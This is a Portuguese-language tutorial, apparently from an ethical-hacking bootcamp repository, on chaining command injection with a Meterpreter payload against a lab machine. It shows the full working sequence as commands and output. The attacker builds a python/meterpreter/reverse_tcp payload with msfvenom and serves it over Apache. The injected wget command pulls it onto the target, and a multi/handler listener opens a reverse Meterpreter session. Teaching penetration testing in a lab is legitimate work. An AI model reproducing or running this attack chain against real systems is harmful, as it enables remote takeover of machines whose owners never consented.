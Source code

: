 # Command Injection com Meterpreter

**Objetivo:** repetir o exercício de invasão web com command injection, porém carregando um payload na máquina alvo para nos permitir acesso a um meterpreter.
 
## Criação do payload

Criaremos o payload através do aplicativo msfvenom do metasploit.

### Passo 1 - Procura e escolha o payload

Comando: `msfvenom -l payloads | grep <filtro>`

```
$ msfvenom -l payloads | grep meterpreter | grep python
                                       
    cmd/unix/python/meterpreter/bind_tcp                               Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection
    cmd/unix/python/meterpreter/bind_tcp_uuid                          Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection with UUID Support
...
    python/meterpreter/reverse_tcp                                     Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker
    python/meterpreter/reverse_tcp_ssl                                 Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Reverse Python connect back stager using SSL
    python/meterpreter/reverse_tcp_uuid                                Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker with UUID Support
    python/meterpreter_bind_tcp                                        Connect to the victim and spawn a Meterpreter shell
    python/meterpreter_reverse_http                                    Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_https                                   Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_tcp                                     Connect back to the attacker and spawn a Meterpreter shell
```
Selecionamos o payload **python/meterpreter/reverse_tcp**. 

### Passo 2 - Configuração e criação do payload

Para conhecer as opções de configuração do payload, usamos o msfconsole do metasploit:

```
$ msfconsole                                                                                    
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  
       =[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use python/meterpreter/reverse_tcp

msf payload(python/meterpreter/reverse_tcp) > show options

Module options (payload/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(python/meterpreter/reverse_tcp) > exit
```
Criamos o payload informando o IP e a porta de escuta:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=6666 >>meu_payload.py
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 432 bytes
```
`>>meu_payload` informa o arquivo de saída com o payload. No caso, meu_payload.py gravado no diretório corrente.
```
$ ls *.py                                                                                
meu_payload.py
```
## Disponibilização do payload

### Passo 1 - iniciar o serviço web
```
$ sudo service apache2 start
[sudo] senha para OpsShadow: 
```
### Passo 2 - copiar o payload para o serviço web
```
$ sudo cp meu_payload.py /var/www/html/                                                         

$ ls /var/www/html                                                         
index.html  index.lighttpd.html  index.nginx-debian.html  meu_payload.py
```
### Passo 3 - copiar o payload para a máquina alvo
Injeção do comando`wget <ip>/<payload>`

![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/bb4da44a9523c4e5eb6f7faca41aa8c174cc39a8/7%20-%20websites/ci-m-1.png)

Verificação do upload do arquivo:

![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/bb4da44a9523c4e5eb6f7faca41aa8c174cc39a8/7%20-%20websites/ci-m-2.png)

![Resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/bb4da44a9523c4e5eb6f7faca41aa8c174cc39a8/7%20-%20websites/ci-m-3.png)

### Passo 4 - encerrar o serviço web
`$ sudo service apache2 stop `

## Execução do ataque

### Passo 1 - iniciar a escuta
Iniciamos a escuta informando o IP e a porta de escuta (a  mesma do payload), e o payload
```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10

msf exploit(multi/handler) > set LPORT 6666 
LPORT => 6666
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666

msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
```
### Passo 2 - Executar o payload no alvo

![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/bb4da44a9523c4e5eb6f7faca41aa8c174cc39a8/7%20-%20websites/ci-m-4.png)

### Resultado
```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666 
[*] Sending stage (24772 bytes) to 192.168.1.33
[*] Meterpreter session 1 opened (192.168.1.10:6666 -> 192.168.1.33:38448) at 2025-09-12 00:10:58 -0300

meterpreter >
```
Abertura do meterpreter com acesso a máquina alvo.
